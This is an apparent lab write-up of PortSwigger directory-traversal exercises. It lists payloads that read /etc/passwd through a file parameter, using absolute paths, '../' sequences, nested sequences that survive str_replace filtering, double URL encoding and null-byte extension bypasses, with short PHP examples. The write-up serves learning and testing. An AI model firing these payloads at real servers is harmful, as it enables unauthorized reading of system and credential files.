# directory traversal 


All the labs have been solved with a tool i made called [traver_sale](https://github.com/jjeyanthan/traver_sale)


## 1-use absolute path 

https://links/?file=/etc/passwd

## 2-path traversal using traversal sequences

https://links/?file=../../../../../../../etc/passwd


## 3-traversal sequences blocked bypass:

https://links/?file=....//....//....//....//....//....//etc/passwd

if a bad sanitization is made by the server like replacing traversal sequence with an empty string
we can bypass that: 

```php
<?php

$user_entry = "../../etc/passwd";

$replace_user = str_replace("../","",$user_entry);
?>

```
$replace_user is now "etc/passwd"

```php
<?php

$attack_entry = "....//....//etc/passwd";

$replace_attack = str_replace("../","",$attack_entry);

?>

```
$replace_attack is now "../../etc/passwd"


## 4-double url encoding and more :

If the server url decode the user entry once in order to find for example 
traversal sequence and then it process another url decode to retrieve the file we can

url encode twice in this case in order to bypass the first check.


https://links/?file=%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd  => encoded once

then "%" will be encoded and our payload will become: %25

https://links/?file=%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd => encoded twice


## 5-valid path 

If you can find a valid path for an images or another object from the page

you can use this path with additional traversal sequences :

example : 

/var/www/images/1.png   => a valid path


https://links/?file=/var/www/images/../../../etc/passwd

 
## 6-bypass extension check with null bytes



https://links/?file=/../../../../../etc/passwd%00.png

 

# source :

https://portswigger.net/web-security/file-path-traversal






